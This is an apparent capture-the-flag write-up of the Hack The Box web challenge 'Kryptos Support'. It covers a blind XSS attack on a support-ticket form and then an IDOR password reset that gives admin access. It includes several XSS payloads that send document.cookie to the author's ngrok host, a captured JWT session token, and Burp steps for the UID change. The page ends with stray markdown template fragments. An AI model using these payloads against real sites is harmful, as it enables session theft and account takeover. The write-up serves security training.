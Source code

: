 # Kryptos Support (web 300 points) 

## Description

Random intergalatic garbage about a website.

## Resources

Docker instance provided when you start the challenge

## Solution

Navigating to the website you are presented with a Kryptos Vault Support page that contains text about submitting tickets, with an input box and a submit button. Submitting garbage as a test doesn't return anything of value. The text on the page changes to say that an admin will view the ticket shortly. Nothing is refelcted or rendered back on the page.

In the top left corner is a button labelled "backend" that links to a /login page. I fiddled with some genereic SQLi commands but again the feedback is well sanitised so i cannot glean any information about whether or not the user is registered etc.

I'm going to assume that this is a Cross-Site Scripting (XSS) challenge referred to as Blind XSS as there is no feedback on the page as to what my commands are doing. This means i am going to need to spin up a server and host a page to catch redirects that i will insert as a payload into the input field.

[Here is a great reference for BXSS commands/payloads](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md)

ngrok bxss hosting tool

>python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

>ngrok http 8000

<p align="center"><img src="_images/1payload.png"></p>
<p align="center"><img src="_images/emailpdf.png"></p>
<p align="center"><img src="_images/emailpdf.png"></p>

payload:
https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md

"><script src="https://56f5-59-102-23-9.au.ngrok.io"</script>  
"><script src="https://56f5-59-102-23-9.au.ngrok.io"+document.cookie;alert(document.cookie);</script>  
"><img src="https://56f5-59-102-23-9.au.ngrok.io"+document.cookie;>  
"<script>var i=new Image;i.src="https://56f5-59-102-23-9.au.ngrok.io"+document.cookie;</script>  

Worked, stole JSON cookie
<img src=x onerror="this.src='https://62ce-59-102-23-9.au.ngrok.io?'+document.cookie; this.removeAttribute('onerror');">

JSON
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI5NjM5OTB9.Lrlo9B0Y11no7QXnxOaBJR6yPJunho4PWEnS31S1Mh4


parse token
https://jwt.io/

user: moderator
in browser developer options, create cookie under "Cookies" Name:session Value:<insertJWT>
browse to /tickets

settings
provides password change functionality without requiring current password. view source shows UID=100 for the user moderator.
close ngork and python server. load burpsuite. change password to password and intercept with burp, change UID=1 and admin password is changed. nav to login page and authenticate as admin:password


Flag = HTB{x55_4nd_id0rs_ar3_fun!!}


```
ngrok                                                                        (Ctrl+C to quit)
                                                                                             
Session Status                online                                                         
Session Expires               1 hour, 50 minutes                                             
Terms of Service              https://ngrok.com/tos                                          
Version                       3.0.3                                                          
Region                        Australia (au)                                                 
Latency                       46.555892ms                                                    
Web Interface                 http://127.0.0.1:4040                                          
Forwarding                    https://a3f8-59-102-23-9.au.ngrok.io -> http://localhost:80    
                                                                                             
Connections                   ttl     opn     rt1     rt5     p50     p90                    
                              2       0       0.00    0.00    0.00    0.00                   
                                                                                             
HTTP Requests                                                                                
-------------                                                                                
                                                                                             
GET /                          502 Bad Gateway                                               
GET /favicon.ico               502 Bad Gateway     
```




<p align="center"><img src="_images/emailpdf.png"></p>

<p align="center"><img src="_images/emailpdf.png"></p>

<p align="center"><img src="_images/emailpdf.png"></p>

<p align="center"><img src="_images/emailpdf.png"></p>

<p align="center"><img src="_images/emailpdf.png"></p>



drop down list
<details>
  <summary>click here</summary>

+ text
+ text
</details>


link to named section
name it
<a id="zsteg"></a>
link to it
<a href="#zsteg">zsteg</a>
